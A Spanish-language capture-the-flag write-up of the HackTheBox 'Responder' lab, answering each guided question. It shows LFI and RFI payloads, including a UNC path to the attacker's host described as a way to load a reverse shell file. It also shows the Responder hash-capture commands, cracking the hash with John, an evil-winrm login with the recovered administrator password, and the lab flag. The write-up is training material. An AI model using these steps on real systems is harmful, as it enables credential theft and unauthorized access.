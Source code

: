 ```yaml
---
title: Máquina Responder
published: true
---
```


Jorge Marco Arráez

He estado unos días intentando la máquina Timelapse, pero he llegado a un punto en el que me he estancado. Tengo que aprender como usar las debilidades de winrm para poder continuar. Mientras tanto, continúo con el starting point que ya estoy empezando la fase 2.

## [](#header-3) 1)   How many TCP ports are open on the machine? 

Con el parámero -sS le digo que haga un escaneo TCP/SYN porque al ser una máquina windows agiliza el proceso, con -n le indico que no quiero que haga resolución por dns para que vaya más rápido, con min-rate especifico la mínima cantidad de paquetes que quiero que emita por segundo. 
-p- es para que escanee todos los puertos y -Pn para que detecte la máquina si o sí.
```
nmap -sS -n --min-rate 5000 -p- -Pn $IP
```

3

## [](#header-3) 2)    When visiting the web service using the IP address, what is the domain that we are being redirected to? 

He tenido que editar el archivo /etc/hosts porque se estaba aplicando virtual hosting, con añadir "$IP  unika.htb" ya he podido acceder a la página.

unika.htb


## [](#header-3) 3)   Which scripting language is being used on the server to generate webpages? 

php

## [](#header-3) 4)   What is the name of the URL parameter which is used to load different language versions of the webpage? 

page

## [](#header-3) 5)   Which of the following values for the page parameter would be an example of exploiting a Local File Include (LFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" 

An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server. An LFI attack may lead to information disclosure, remote code execution, or even Cross-site Scripting (XSS). Typically, LFI occurs when an application uses the path to a file as input. If the application treats this input as trusted, a local file may be used in the include statement.
The following is an example of PHP code that is vulnerable to LFI.


```
/**
* Get the filename from a GET input
* Example - http://example.com/?file=filename.php
*/
$file = $_GET['file'];

/**
* Unsafely include the file
* Example - filename.php
*/
include('directory/' . $file);
```

In the above example, an attacker could make the following request. It tricks the application into executing a PHP script such as a web shell that the attacker managed to upload to the web server.

Fuente: https://www.acunetix.com/blog/articles/local-file-inclusion-lfi/

```
../../../../../../../../windows/system32/drivers/etc/hosts
```

## [](#header-3) 6)   Which of the following values for the page parameter would be an example of exploiting a Remote File Include (RFI) vulnerability: "french.html", "//10.10.14.6/somefile", "../../../../../../../../windows/system32/drivers/etc/hosts", "minikatz.exe" 

Según wikipedia, una RFI es una vulnerabilidad existente solamente en páginas dinámicas en PHP que permite el enlace de archivos remotos situados en otros servidores a causa de una mala programación de la página que contiene funciones de inclusión de archivos.

Por lo que incluyendo la línea de abajo en el campo "page" del url, podríamos conseguir que el servidor incluyese un fichero de nuestra máquina, por ejemplo, un archivo para hacer una reverse shell.

```
//10.10.14.6/somefile
```

Más información aquí: https://www.acunetix.com/blog/articles/remote-file-inclusion-rfi/

## [](#header-3) 7)    What does NTLM stand for? 

new technology lan manager

## [](#header-3) 8)   Which flag do we use in the Responder utility to specify the network interface? 

Para que el programa pudiese funcionar, he tenido que matar algunos procesos que estaban ocurriendo en el puerto 445 y 139. Con:

```
sudo kill -9 `sudo lsof -t -i:139`
sudo kill -9 `sudo lsof -t -i:445`
responder -I tun0 -w -d 
```

-I

## [](#header-3) 9)  There are several tools that take a NetNTLMv2 challenge/response and try millions of passwords to see if any of them generate the same response. One such tool is often referred to as `john`, but the full name is what?. 

john the ripper

## [](#header-3) 10)  What is the password for the administrator user? 
```
john -w=/opt/wordlist/rockyout.txt hash.txt
```
badminton

## [](#header-3) 11)  We'll use a Windows service (i.e. running on the box) to remotely access the Responder machine using the password we recovered. What port TCP does it listen on? 

5985

## [](#header-3) 12)  Submit root flag 

```
evil-winrm -i 10.129.93.222 -u administrator -p badminton
ls
cd C:\Users
ls
cd mike
ls
cd Desktop
ls
text flag.txt
```

```
ea81b7afddd03efaa0945333ed147fac
```